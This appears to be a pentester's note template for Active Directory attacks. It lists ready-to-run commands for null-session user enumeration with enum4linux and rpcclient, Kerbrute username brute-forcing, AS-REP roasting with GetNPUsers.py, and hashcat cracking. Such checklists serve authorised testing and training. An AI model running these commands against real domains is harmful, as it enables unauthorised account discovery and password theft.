 # Active Dirctory
## User Enum

### Enum4Linux
```bash
enum4linux -U <% tp.frontmatter.dc_ip %>  | grep "user:" | awk -F'[][]' '{print $2}' > users
```

### RPCClient 
**Null session**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $2}' > users
```

**If you would like all RIDs**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $4}' > RIDs
```

**Query each user for additional information**
```
cat RIDs | while read rid; do rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c "queryuser $rid"; done
```

**Get all groups**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomgroups'
```

## Kerbrute
**Change wordlist if you  have put together a custom one**
```bash
kerbrute userenum -d <% tp.frontmatter.domain %> --dc <% tp.frontmatter.dc_ip %> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

## Attacking users

### GetNPUsers

```bash
GetNPUsers.py '<% tp.frontmatter.domain %>/' -usersfile users -format hashcat -outputfile hashes -dc-ip <% tp.frontmatter.dc_ip %>
```

### Hashcat
```bash
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
```


